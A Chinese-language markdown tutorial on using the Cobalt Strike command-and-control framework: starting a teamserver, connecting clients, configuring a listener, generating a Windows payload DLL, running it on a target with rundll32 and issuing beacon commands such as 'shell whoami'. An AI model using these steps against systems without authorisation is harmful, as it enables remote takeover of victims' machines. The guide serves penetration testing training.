 # Cobaltstrike

* [CobaltStrike](cobaltstrike.md#CobaltStrike)
  * [简介](cobaltstrike.md#简介)
  * [使用](cobaltstrike.md#使用)
    * [启动](cobaltstrike.md#启动)
    * [上线一个目标](cobaltstrike.md#上线一个目标)

## 简介

Cobalt Strike是一款渗透测试神器，常被业界人称为CS神器。Cobalt Strike已经不再使用MSF而是作为单独的平台使用，它分为客户端与服务端，服务端是一个，客户端可以有多个，可被团队进行分布式协团操作。 Cobalt Strike集成了端口转发、扫描多模式端口Listener、Windows exe程序生成、Windows dll动态链接库生成、java程序生成、office宏代码生成，包括站点克隆获取浏览器的相关信息等。

* 官网地址：https://www.cobaltstrike.com/

目录说明

```
- agscript：拓展应用的脚本。
- c2lint：用于检查profile 的错误和异常。
- teamserver：团队服务器程序。
- cobaltstrike 和 cobaltstrike.jar:客户端程序。因为teamserver文件是通过Java来调用CobaltStrike 的，所以直接在命令行环境中输入第一个文件的内容也能启动Cobalt Strike 客户端 (主要是为了方便操作)。
- logs:日志，包括 Web日志、Beacon日志、截图日志、下载日志、键盘记录日志等。
- datas：用于保存当前TeamServer的一些数据。
- update 和 update.jar：用于更新Cobalt Strike。
```

## 使用

需要先部署TeamServer团队服务器，需要设置当前主机的IP地址和团队服务器的密码

### 启动

* 服务端teamserver

```bash
./teamserver 10.30.0.95 123456
```

![image](../../../../../readme/shen-tou-ce-shi/an-quan-gong-ju/img/cobaltstrike-1.png)

* 客户端CobaltStrike

```bash
 ./cobaltstrike
```

![image](../../../../../readme/shen-tou-ce-shi/an-quan-gong-ju/img/cobaltstrike-2.png)

填写团队服务器的IP地址、端口号、用户名、密码，这里的用户名任意填写、不能是已经登录的用户名。端口号默认为50050

![image](../../../../../readme/shen-tou-ce-shi/an-quan-gong-ju/img/cobaltstrike-3.png)

**连接多个团队服务器**

Cobalt Strike → New Connection

![image](../../../../../readme/shen-tou-ce-shi/an-quan-gong-ju/img/cobaltstrike-4.png)

### 上线一个目标

* 首先配置一个监听器：CobaltStrike->Linteners->Add

![image](../../../../../readme/shen-tou-ce-shi/an-quan-gong-ju/img/cobaltstrike-5.png)

* 生成一个payload：Attacks->Packages->Windows Executable

![image](../../../../../readme/shen-tou-ce-shi/an-quan-gong-ju/img/cobaltstrike-6.png)

* 然后生成的dll上传到目标机器Windows，执行命令：

```
rundll32.exe artifact.dll Start
```

![image](../../../../../readme/shen-tou-ce-shi/an-quan-gong-ju/img/cobaltstrike-7.png)

可以看到目标上线成功，右键interact可执行命令

```bash
shell whoami #命令执行需要前面加上shell
```

因为cobaltstrike心跳默认60s，执行命令响应比较慢，可设置sleep加快速度

```
sleep 1
```

## 参考链接

* ffffffff0x团队-1earn的CobaltStrike教程：https://github.com/ffffffff0x/1earn/blob/b068ec66544975f03160088fcca375e95768b198/1earn/Security/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7/CobaltStrike.md
